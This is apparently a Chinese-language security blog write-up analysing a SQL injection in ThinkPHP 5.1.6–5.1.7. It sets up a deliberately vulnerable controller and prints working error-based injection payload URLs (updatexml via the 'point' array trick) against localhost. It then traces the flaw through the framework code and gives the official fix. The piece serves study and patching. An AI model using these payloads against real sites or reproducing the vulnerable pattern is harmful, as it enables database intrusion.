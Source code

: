 # ThinkPHP5.1.x SQL注入(Update)

Author: H3rmesk1t

Data: 2021.08.13

# 漏洞概要

- 本次漏洞存在于 `Mysql` 类的 `parseArrayData` 方法中，由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL注入漏洞 的产生
- 漏洞影响版本： 5.1.6<=ThinkPHP<=5.1.7 (非最新的 5.1.8 版本也可利用)
# 初始配置
- 获取测试环境代码

```bash
composer create-project --prefer-dist topthink/think=5.1  tpH3rmesk1t
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ad95b5b9781f4b9fabccb2dbae673760.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

将 composer.json 文件的 require 字段设置成如下

```bas
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.7"
}
```

然后执行 `composer update`

![在这里插入图片描述](https://img-blog.csdnimg.cn/344ef95318c342f1914da5e9a4f90185.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

- 下载后的源码中，需要对`application/index/controller/Index.php`内容进行修改

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username/a');
        db('users')->where(['id' =1])->update(['username' =$username]);
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:)Gyan师傅永远嘀神！！！</h1><pThinkPHP V5.1<br/><span style="font-size:30px">12载初心不改（2006-2018） - 你值得信赖的PHP框架</span></p></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="eab4b9f840753f8e7"></think>';
    }
}
?>
```

在`config/database.php`文件中配置数据库相关信息，并开启`config/app.php`中的app_debug和app_trace,创建数据库信息如下

```php
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null,
);
insert into users(id,username) values(1,'H3rmesk1t');
```
# 漏洞利用

Payload：
```nash
http://127.0.0.1/cms/public/index.php?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,database(),0x7e),1)^&username[3]=0 
或者
http://127.0.0.1/cms/public/index.php?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,database(),0x7e),1)|&username[3]=0 
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d04b60646ea4ee08e63f5be947c0671.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞分析
先打断点，跟进一下payload，先接收变量

![在这里插入图片描述](https://img-blog.csdnimg.cn/497edc01ad754de7ac65fbcf51aae8de.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进到`thinkphp/helper.php`中的`db`方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/7fd6c6d62f8b473b990ed3fcc32bf57f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进到`thinkphp/library/think/db/Query.php`中`where`方法，接着进入`update`方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/83563ac2ac794d448e715778625a3b04.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/424b57587df04c6e9e7e88c397e6b312.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

进入到return里面，跟进到`thinkphp/library/think/db/Connection.php`中`connect`类的`update`方法，找到生成update的SQL语句`$sql  = $this->builder->update($query);`，跟进该语句看看干了什么

![在这里插入图片描述](https://img-blog.csdnimg.cn/0ce53b54d52147bb95dd6141fdfa8d50.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进`thinkphp/library/think/db/Builder.php`中的`update`方法，在`Builder`类中的`update`方法里又调用了`parseData`方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/20d4f408690f497b96453b0b84dc476f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进`parseData`方法，在该方法中的swich语句中的default 语句中存在一个`parseArrayData`方法，跟进去看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/9d10cf625c63497ba1edba31794f7610.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进`thinkphp/library/think/db/builder/Mysql.php`中的`parseArrayData`方法，这里如果数组`$data`第一个变量的小写是`point`的话就进入到后续的判断语句中；由于`$data[2]`和`$data[3]`都不为空，所以就是传进来的值；if语句判断了一下``$data[1]``是不是数组，是的话就将一维数组的值连接为一个字符串；最后进入到拼接语句，拼接的形式为：`$data[2]('$data[3]($data[1])');`，参数均为可控参数

![在这里插入图片描述](https://img-blog.csdnimg.cn/34ece30086f24e93bf43dff4bf01c164.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

用debug看看拼接后的值：`updatexml(1,concat(0x7,database(),0x7e),1)^('0(1)')`，成功造成SQL注入

![在这里插入图片描述](https://img-blog.csdnimg.cn/5c1c8a82974146ca88ba677c0a23a633.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# 漏洞修复

参考官方修复方法，直接将 `parseArrayData` 方法删除

![在这里插入图片描述](https://img-blog.csdnimg.cn/e8b76dfbded34fc3ba8d13c743f43120.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 攻击总结

参考Mochazz师傅的审计流程

![在这里插入图片描述](https://img-blog.csdnimg.cn/db1a2b18b6ad4d78b94935e5d4cfe47f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

